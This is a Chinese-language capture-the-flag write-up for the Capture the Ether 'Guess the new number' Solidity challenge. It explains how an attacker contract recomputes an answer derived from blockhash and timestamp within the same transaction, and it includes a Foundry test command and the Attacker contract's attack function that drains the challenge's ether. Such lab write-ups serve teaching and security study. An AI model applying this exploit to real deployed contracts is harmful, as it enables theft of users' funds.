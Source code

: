 # Guess the new number

## 题目描述

[原题链接](https://capturetheether.com/challenges/lotteries/guess-the-new-number/)

原题目要求 GuessTheNewNumberChallenge 合约里面的余额为 0。而调用 guess 并输入答案，如果答案等于使用 blockhash 以及 timestamp 通过 hash 生成的数，即可转移 2 ether 出去。

## 运行

**安装 Foundry**

根据[Foundry 官方文档](https://getfoundry.sh/)配置好运行环境。

**运行测试**

```sh
$ cd WTF-CTF

$ forge test -C src/Capture_the_Ether/Lotteries/Guess_the_new_number -vvv
```

## 功能简述

在 GuessTheNewNumberChallenge 合约中，answer 的构造使用了当前链上的状态，包括前一个区块的 hash 以及当前 timestamp。既然answer 的构造规则是公开的，我们可以部署一个新合约 Attacker，使用新合约来计算 answer 并调用 guess，这样因为在这笔跨合约调用的 transaction 中，两个合约的环境变量 block hash 和 timestamp 都是相同的，因此能够得到相同的 answer。

这个是 Attacker 合约中 attack 的逻辑，我们先检查 msg.sender，防止被 MEV 黑吃黑了，然后我们调用 attack 时需要携带 1 ether，然后我们构造出 answer，并按照要求调用 GuessTheNewNumberChallenge 合约的 guess，然后通过 challenge.isComplete() 检查是否挑战成功，这样即使挑战失败，也不会损失 ether，最后将得到的余额返回给自己。

```sol
    function attack(address _challenge) public payable {
        if (msg.sender != owner) revert NotOwner();
        if (msg.value != 1 ether) revert ValueErr();

        IGuessTheNewNumberChallenge challenge = IGuessTheNewNumberChallenge(_challenge);
        uint8 answer = uint8(uint(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))));
        challenge.guess{value: 1 ether}(answer);
        
        if (!challenge.isComplete()) revert GuessErr();

        payable(msg.sender).transfer(address(this).balance);        
    }
```
